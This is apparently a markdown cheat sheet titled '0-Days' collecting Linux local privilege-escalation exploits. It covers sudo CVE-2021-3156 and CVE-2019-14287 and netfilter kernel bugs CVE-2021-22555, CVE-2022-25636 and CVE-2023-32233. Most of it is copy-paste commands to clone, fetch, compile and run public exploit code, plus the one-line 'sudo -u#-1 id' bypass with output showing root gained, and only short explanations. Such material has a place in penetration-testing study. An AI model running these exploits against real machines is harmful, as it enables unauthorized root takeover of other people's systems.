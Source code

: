 # 0-Days
`The Guide`

- [Sudo](#sudo)
  - [usage](#usage)
  - [Sudo policy bypass](#sudo-policy-bypass)
- [Netfilter](#netfilter)

# Sudo
One of the latest vulnerabilities for sudo carries the CVE-2021-3156 and is based on a heap-based buffer overflow vulnerability. This affected the sudo versions:

    1.8.31 - Ubuntu 20.04
    1.8.27 - Debian 10
    1.9.2 - Fedora 33
    and others

To find out the version of sudo, the following command is sufficient:

```bash
sudo -V | head -n1
```
**POC**
```bash
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
```
### Usage
```bash
./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

```
### Sudo Policy Bypass
> Another vulnerability was found in 2019 that affected all versions below 1.8.28, which allowed privileges to escalate even with a simple command. This vulnerability has the CVE-2019-14287 and requires only a single prerequisite. It had to allow a user in the /etc/sudoers file to execute a specific command.
```bash
sudo -u#-1 id
id
uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```

## Netfilter
>Netfilter is a Linux kernel module that provides, among other things, packet filtering, network address translation, and other tools relevant to firewalls. It controls and regulates network traffic by manipulating individual packets based on their characteristics and rules. Netfilter is also called the software layer in the Linux kernel. 
1. 2021 ([CVE-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555)) `
5.10.5-051005-generic`
```bash
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
 gcc -m32 -static exploit.c -o exploit
./exploit
```
2. 2022 ([CVE-2022-25636](https://www.cvedetails.com/cve/CVE-2022-25636/)) `5.13.0-051300-generic`
```bash
git clone https://github.com/Bonfee/CVE-2022-25636.git
cd CVE-2022-25636
make
./exploit
```
Learn [More](https://nickgregory.me/post/2022/03/12/cve-2022-25636/).  
3. 2023 ([CVE-2023-32233](https://github.com/Liuk3r/CVE-2023-32233))
```bash
git clone https://github.com/Liuk3r/CVE-2023-32233
cd CVE-2023-32233
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
```
> This vulnerability exploits the so called anonymous sets in `nf_tables` by using the `Use-After-Free` vulnerability in the Linux Kernel up to version `6.3.1`. These `nf_tables` are temprorary workspaces for processing batch requests and once the processing is done, these anonymous sets are supposed to be cleared out (Use-After-Free) so they cannot be used anymore. Due to a mistake in the code, these anonymous sets are not being handled properly and can still be accessed and modified by the program.

The exploitation is done by manipulating the system to use the cleared out anonymous sets to interact with the kernel's memory. By doing so, we can potentially gain root privileges.
